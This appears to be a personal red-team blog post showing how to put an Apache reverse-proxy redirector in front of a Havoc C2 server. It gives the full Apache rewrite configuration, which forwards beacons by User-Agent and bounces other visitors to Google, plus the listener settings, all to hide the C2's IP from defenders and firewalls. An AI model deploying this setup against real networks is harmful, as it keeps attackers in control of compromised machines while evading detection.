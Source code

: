 ```yaml
---
layout: single
title: "OopsBeacon"
author_profile: true
---
```


## ./Whoami

Hey everyone! My name is Abdullah. I’m here to keep improving — growing my skills and becoming a better writer. I write these blogs to share what I discover and to document my progress. I hope you find something helpful here, and I look forward to learning and improving together!

![Oops Beacon GIF](./images/133753c4-e1c8-4b36-879c-bf5d436f78b8_text.gif)


## But what is a "Redirector"?

Generally, a redirector is used to move traffic from one machine or server to another machine (which, in our case, is our C2). So the redirector will take our "Beacon" traffic and forward it to the real C2 server.

## Why Use a Redirector?

The main idea behind using a redirector is to hide your C2 server’s real IP address. For example, if you were conducting a red team engagement without a redirector and a firewall blocked your C2 IP, you’d be done for, and will not be able to continue the engagement. But if you had a redirector, it would hide the C2’s true IP, so the firewall would only block the redirector’s IP. In that case, you can just spin up a new redirector and stay operational.


![Redirector diagram](./images/Pasted%20image%2020250708212556.png)

-----

#### The Set-up You'll Need 

- VPS  (Redirector): You can use any cheap VPS with Apache2 installed . (10.10.10.3)
- VPS (C2 server) : You use any C2 framework — in my case will be using Havoc C2 . (10.10.10.2)
- Attacker Machine ( Kali linux) . (10.10.10.1)

> **Note:** You can use any Linux system for your redirector. 


----

### Installing and Configuring Apache


- First, we need to install Apache on our redirector . Simply , run `apt-get install apache2` .

![Apache install](./images/Pasted%20image%2020250708214542.png)


- After downloading apache , activate these modules 

```
sudo a2enmod proxy && sudo a2enmod proxy_http && sudo a2enmod proxy_ajp && sudo a2enmod rewrite && sudo a2enmod deflate&&sudo a2enmod headers && sudo a2enmod proxy_balancer && sudo a2enmod proxy_connect && sudo a2enmod proxy_html
```

Since we are working on HTTPS , we need to create SSL certificates (Self-signed)  :

```
openssl req -new -newkey rsa:2048 -nodes -keyout redirector.key -x509 -days 365 -out redirector.crt
```

Before moving on to launching apache2 , we need to open the port 443 on our firewall to allow the connections being made :

```
sudo ufw allow 443
```

> To install UFW,  just use `apt-get install ufw` > `sudo ufw enable`

Now, we want apache to use port 443 instead of 80 and we want to specify the path to our newly generated SSL certificate . 

```
nano /etc/apache2/sites-available/000-default.conf
```

Paste this :

```
<VirtualHost *:443>
    ServerAdmin webmaster@localhost
    DocumentRoot /var/www/html

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined

    SSLEngine on
    SSLProxyEngine on

    SSLProxyVerify none
    SSLProxyCheckPeerCN off
    SSLProxyCheckPeerName off

    SSLCertificateFile /home/kali/redirector.crt
    SSLCertificateKeyFile /home/kali/redirector.key

    RewriteEngine on
    RewriteCond %{HTTP_USER_AGENT} ^Havoc [NC]
    RewriteRule ^(.*)$ https://10.10.10.2:443/$1 [P]  # C2 ip goes HERE 

    RewriteCond %{HTTP_USER_AGENT} !^Havoc [NC]
    RewriteRule ^(.*)$ https://www.google.com/ [R,L]

    ProxyPreserveHost On
</VirtualHost>


```

Change `SSLCertificateFile`  and `SSLCertificateKeyFile` to where you saved the generated SSL certificate . 


To elaborate further on what is going on the code here , 
```
RewriteEngine on
    RewriteCond %{HTTP_USER_AGENT} ^Havoc [NC]
    RewriteRule ^(.*)$ https://10.10.10.2:443/$1 [P]
```

Here when any request is sent to our redirector it will check the `User-agent` header and if the value is `Havoc` , then the redirector will allow the request to be sent to the C2 Server.



On the other hand ,

```
RewriteCond %{HTTP_USER_AGENT} !^Havoc [NC]
    RewriteRule ^(.*)$ https://www.google.com/ [R,L]
```

This is the opposite rule to the above , if the `User-Agent` value isn't `Havoc` then the request will be redirected to google . This way we keep our Havoc server safe from any outsider request . 



Lastly , we now start the Apache2 service  :

```
sudo service apache2 start
```

![Apache start](./images/Pasted%20image%2020250708223258.png)
> If you encounter SSL errors , try to enable SSL `sudo a2enmod ssl`


![Funny Beacon GIF](./images/4c62b8664b2aa5d5c16e080936e52a88.gif)



------


### Configuring Havoc HTTPS listener

![Havoc listener](./images/Pasted%20image%2020250712174456.png)

- In the "Hosts" field we put our redirector ip address . This would tell the listener to wait for incoming HTTPs requests from the redirector we specified. 

- Both "PortBind" and "PortConn" fields will be 443, since the redirector is going to listen on port 443, so will our C2 server .

- In the "User-agent" field, we will put the one the we specified earlier on the apache server config. In our case its "HAVOC".


Finally, click save and you are ready to go . Now the generated payloads will connect to our redirector instead of our Havoc c2 . In order to test it yourselves, you can use `netstat -ano | findstr 443` , you will see that the machine(victim) is connected to your redirector IP and there is no way to find the real C2 server IP.




## Conclusion 

I have other ideas to share when it comes to making "Redirectors" . There are more versatile ways that are more evasive and can evade "NDRs" , and that would be preformed in actual red team engagements . If you are interested, just tell me and I will be more than happy to provide :D . 
